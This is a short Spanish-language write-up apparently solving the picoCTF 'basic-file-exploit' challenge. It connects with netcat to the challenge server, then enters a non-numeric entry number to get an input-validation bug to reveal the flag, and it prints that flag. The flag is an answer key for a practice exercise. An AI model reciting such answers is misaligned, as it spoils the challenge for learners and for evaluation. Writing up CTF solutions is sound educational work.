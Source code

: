 # basic-file-exploit

## Objetivo.

The program provided allows you to write to a file and read what you wrote from it. Try playing around with it and see if you can break it!Connect to the program with netcat:`$ nc saturn.picoctf.net 65317`The program's source code with the flag redacted can be downloaded [here](https://artifacts.picoctf.net/c/139/program-redacted.c).

## Solución.

**Conectarse a nc saturn.picoctf.net 65317** 

frausto_sanpicoctf@webshell:~/picoctf/binaryexplotation/basicfile/basicfileexploit$ 

nc saturn.picoctf.net 65317

**Respoder lo siguiente**

```
Hi, welcome to my echo chamber!
Type '1' to enter a phrase into our database
Type '2' to echo a phrase in our database
Type '3' to exit the program
1
1
Please enter your data:
test
test
Please enter the length of your data:
4
4
Your entry number is: 1
Write successful, would you like to do anything else?
2
2
Please enter the entry number of your data:
a
a
picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}
```

**Bandera** picoCTF{M4K3_5UR3_70_CH3CK_Y0UR_1NPU75_1B9F5942}

## Notas opcionales.

## Referencias.

Vídeo

https://www.youtube.com/watch?v=UbAaLQz38T4&ab_channel=AlmondForce
